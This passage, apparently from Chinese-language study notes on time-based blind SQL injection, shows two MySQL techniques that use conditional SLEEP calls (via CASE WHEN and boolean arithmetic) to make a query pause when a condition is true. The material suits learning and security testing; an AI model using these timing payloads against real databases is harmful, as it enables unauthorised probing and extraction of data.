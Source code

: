 ------

### 2. 用 `CASE WHEN + SLEEP`

```sql
SELECT * FROM `users` 
WHERE id = 1 
  AND (CASE WHEN (1=1) THEN SLEEP(5) ELSE 1 END);
```

👉 效果：条件为真时延迟 5 秒。

![image-20250903181922602](images/image-20250903181922602.png)

------

### 3. 用 `算术运算 + SLEEP`

```sql
SELECT * FROM `users` 
WHERE id = 1 
  AND SLEEP((1=1)*3);
```

👉 效果：布尔值乘以 3 → 等于 3 → 延迟 3 秒。

![image-20250903182315125](images/image-20250903182315125.png)

